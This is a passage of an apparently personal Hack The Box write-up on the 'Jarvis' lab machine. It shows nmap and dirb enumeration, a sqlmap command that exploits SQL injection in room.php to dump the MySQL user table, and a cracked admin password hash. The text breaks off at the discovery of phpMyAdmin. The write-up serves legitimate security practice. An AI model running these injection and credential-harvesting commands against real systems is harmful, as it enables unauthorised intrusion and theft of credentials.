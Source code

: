 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
<<logo-png>>
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

<<selection009>>
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
<<selection010>>
<br/>

```
password:-imissyou
```

## Getting Low priv shell

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```

